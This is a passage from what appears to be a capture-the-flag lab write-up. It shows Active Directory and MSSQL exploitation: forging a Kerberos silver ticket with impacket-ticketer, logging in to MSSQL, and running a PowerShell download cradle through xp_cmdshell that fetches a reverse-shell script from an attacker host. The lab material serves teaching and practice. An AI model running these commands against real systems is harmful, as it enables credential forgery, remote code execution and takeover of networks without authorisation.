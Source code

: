 The following command gives us a ticket which is saved 

`impacket-ticketer -nthash B999A16500B87D17EC7F2E2A68778F05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -dc-ip 10.129.84.4 -spn  MSSQLSvc/dc1.scrm.local administrator`

![Untitled](images/Untitled%2015.png)

### Connecting to MYSQL

`impacket-mssqlclient dc1.scrm.local -k`

![Untitled](images/Untitled%2016.png)

Let’s get a reverse shell 

`xp_cmdshell "powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.14.18/revshell.ps1\")"`

### Enumerating DB

List DB  -  `SELECT name FROM master.dbo.sysdatabases`

![Untitled](images/Untitled%2017.png)